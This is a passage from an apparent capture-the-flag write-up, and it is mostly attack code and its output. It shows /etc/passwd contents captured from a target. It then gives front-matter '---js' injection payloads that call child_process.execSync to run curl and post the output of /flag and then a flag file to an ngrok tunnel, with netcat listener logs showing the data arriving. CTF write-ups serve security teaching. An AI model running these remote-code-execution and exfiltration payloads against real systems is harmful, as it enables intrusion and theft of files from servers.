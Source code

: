 ```bash
Accept: */*
Content-Length: 972
Content-Type: application/x-www-form-urlencoded

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
nodez:x:1001:1001::/home/nodez:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
```

I could read `/flag` but with small modification because it was an executable file with exec permissions only 
```js
---js
((require("child_process")).execSync('curl -X POST --data-binary "$(/flag)" http://0.tcp.eu.ngrok.io:17552'));
---RCE
```
I got 
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 36472
POST / HTTP/1.1
Host: 0.tcp.eu.ngrok.io:17552
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 97
Content-Type: application/x-www-form-urlencoded

Congratulations, this is the flag location: /tmp/fc80064fad72eab4561049ae973e20ba/flag_HALDXQ.txt
```

Now i can read the flag using
```js
---js
((require("child_process")).execSync('curl -X POST --data-binary "@/tmp/fc80064fad72eab4561049ae973e20ba/flag_HALDXQ.txt" http://0.tcp.eu.ngrok.io:17552'));
---RCE
```
and congratz you got the flag
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 53184
POST /? HTTP/1.1
```